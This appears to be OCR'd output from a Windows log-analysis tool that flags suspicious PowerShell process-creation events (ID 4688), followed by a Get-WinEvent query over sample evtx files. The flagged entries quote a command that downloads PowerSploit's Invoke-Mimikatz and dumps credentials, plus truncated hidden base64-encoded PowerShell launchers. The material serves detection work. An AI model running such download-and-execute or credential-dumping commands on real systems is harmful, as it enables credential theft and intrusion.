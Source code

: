 ```
          ion/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
=================================================================================
Date    : 9/20/2016 12:19:26 PM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Long Command Line: greater than 1000 bytes
          500+ consecutive Base64 characters
          Base64 encoded and hidden PowerShell command
          Base64-encoded function
          Download via Net.WebClient DownloadString
          User-Agent set via command line

Command : powershell.exe  -NoP -sta -NonI -W Hidden -Enc JABXAGMAPQBOAGUA...EIALQBqAG8AaQBOACcAJwApAA==
Decoded : $Wc=New-OBJECT ...

Date    : 9/20/2016 12:15:54 PM
Log     : Security
EventID : 4688
Message : Suspicious Command Line
Results : Long Command Line: greater than 1000 bytes
          500+ consecutive Base64 characters
          Base64 encoded and hidden PowerShell command
          Base64-encoded function
          Download via Net.WebClient DownloadString
          User-Agent set via command line

Command : powershell.exe  -NoP -sta -NonI -W Hidden -Enc WwBTAFk...BPAEkATgAnACcAKQA=
Decoded : [SYStEm.NET.SErvICePoiNTMANaGEr]::...

```
```
PS > Get-WinEvent -FilterHashtable @{Path=".\evtx\powersploit-security.evtx",".\evtx\powersploit-system.evtx"; id=4688} | 
    Where-Object { $_.Message -ilike "*powershell*" } |
    Select-Object -ExpandProperty Message

Subject:
        Security ID:            S-1-5-21-3463664321-2923530833-3546627382-1000
        Account Name:           IEUser
        Account Domain:         IE10WIN7
        Logon ID:               0x6793C

Process Information:
        New Process ID:         0x11c
        New Process Name:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
        Token Elevation Type:   TokenElevationTypeFull (2)
        Creator Process ID:     0x98c
        Process Command Line:   powershell.exe  -NoP -sta -NonI -W Hidden -Enc JABXAGM..aQBOACcAJwApAA==

A new process has been created.

Subject:
        Security ID:            S-1-5-21-3463664321-2923530833-3546627382-1000
        Account Name:           IEUser
        Account Domain:         IE10WIN7
        Logon ID:               0x6793C

Process Information:
        New Process ID:         0x700
        New Process Name:       C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```